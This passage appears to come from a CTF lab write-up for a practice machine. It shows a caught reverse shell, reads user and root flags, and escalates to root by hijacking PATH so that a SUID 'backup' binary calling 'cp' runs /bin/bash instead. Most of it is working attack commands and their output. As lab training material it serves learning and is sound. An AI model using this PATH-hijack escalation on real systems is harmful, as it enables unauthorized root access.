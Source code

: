 ```shell
listening on [any] 4445 ...
connect to [10.11.1.199] from (UNKNOWN) [10.10.86.119] 57586
bash: cannot set terminal process group (1394): Inappropriate ioctl for device
bash: no job control in this shell
archangel@ubuntu:~$ id
id
uid=1001(archangel) gid=1001(archangel) groups=1001(archangel)
```

### Flag 3

```shell
archangel@ubuntu:~$ cd secret/
archangel@ubuntu:~/secret$ ls
backup  user2.txt
archangel@ubuntu:~/secret$ cat user2.txt
thm{h0r*************************************r0n}
```

### relative path exploit

another file is owned by root in this folder. a binary that is named `backup` and has the `suid` bit set. so, getting a shell from it would escalate my privileges to root.

```shell
archangel@ubuntu:~/secret$ ls -la
total 32
drwxrwx--- 2 archangel archangel  4096 Nov 19  2020 .
drwxr-xr-x 6 archangel archangel  4096 Nov 20  2020 ..
-rwsr-xr-x 1 root      root      16904 Nov 18  2020 backup
-rw-r--r-- 1 root      root         49 Nov 19  2020 user2.txt
```

i checked the binary with `strings` command and found that `cp` was not called with an absolute path.

```shell
archangel@ubuntu:~/secret$ strings backup

_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
cp /home/user/archangel/myfiles/* /opt/backupfiles
:*3$"
GCC: (Ubuntu 10.2.0-13ubuntu1) 10.2.0
/usr/lib/gcc/x86_64-linux-gnu/10/../../../x86_64-linux-gnu/Scrt1.o
__abi_tag

```

then i executed these commands and got a root shell.

```shell
archangel@ubuntu:~/secret$ echo "/bin/bash;" > /tmp/cp
archangel@ubuntu:~/secret$ chmod +x /tmp/cp
archangel@ubuntu:~/secret$ export PATH=/tmp:$PATH && ./backup
root@ubuntu:~/secret#
```

changing into the root directory i claimed the root flag.

```shell
root@ubuntu:~/secret# cd /root
root@ubuntu:/root# cat root.txt
thm{p4*********************************************************10n}
```

